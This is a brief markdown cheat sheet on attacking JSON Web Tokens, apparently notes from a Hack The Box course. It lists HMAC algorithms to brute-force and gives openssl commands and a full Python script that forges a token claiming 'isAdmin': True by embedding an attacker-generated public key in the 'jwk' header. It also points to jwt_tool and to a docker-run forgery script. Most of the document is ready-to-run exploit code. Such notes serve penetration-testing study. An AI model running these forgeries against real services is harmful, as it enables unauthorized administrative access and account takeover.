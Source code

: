 # JWT
## Guessing secrets algs
- HS256
- HS384
- HS512

## Exploiting jwk
1. Generate keys for sign JWT
```bash
openssl genpkey -algorithm RSA -out exploit_private.pem -pkeyopt rsa_keygen_bits:2048
openssl rsa -pubout -in exploit_private.pem -out exploit_public.pem
```
2. Manipulate JWT
```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {'user': 'htb-stdnt', 'isAdmin': True}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```
3. Install dependencies/run code
```bash
pip3 install pyjwt cryptography python-jose
python3 exploit.py 
```

## [jwt_tool](https://github.com/ticarpi/jwt_tool)
### Installation
```bash
git clone https://github.com/ticarpi/jwt_tool
pip3 install -r requirements.txt
```

## Crack JWT with docker
```bash
docker run -it --rm sig2n /bin/bash
python3 jwt_forgery.py <jwt1> <jwt2>
